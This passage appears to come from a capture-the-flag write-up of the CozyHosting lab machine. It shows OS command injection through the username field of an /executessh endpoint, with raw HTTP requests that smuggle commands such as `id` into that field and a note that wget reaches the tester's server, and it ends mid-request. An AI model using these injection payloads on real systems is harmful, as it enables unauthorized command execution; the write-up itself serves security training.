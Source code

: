 Typically, for the server to connect to the Cozy Scanner via SSH, the backend would require to use os commands to execute code. This means that this endpoint might be vulnerable to OS command injection or SSTI vulnerabilities. Using ```host=10.10.11.230&username=%23%7b3%2a3%7d``` as the payload, we are able to trigger an error message that tells us that the endpoint is vulnerable to OS command injection on the username parameter

```
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 09 Sep 2023 06:56:44 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

Using the following request, we are able to successfully execute the ```id``` command.

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=120074FB77C31C93529753263A93B192
Upgrade-Insecure-Requests: 1



host=10.10.11.230&username=`id`
```

However, when we attempt to execute the ```ls -la``` command, we receive an error that whitespaces are not allowed. We also notice that we are unable to execute the ```ls``` command as there are more than 1 line in the output and so, it cannot be properly displayed in the response.  By sending the follow request, we realize that we are able to do a ```wget``` command on our server.

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=120074FB77C31C93529753263A93B192
Upgrade-Insecure-Requests: 1
```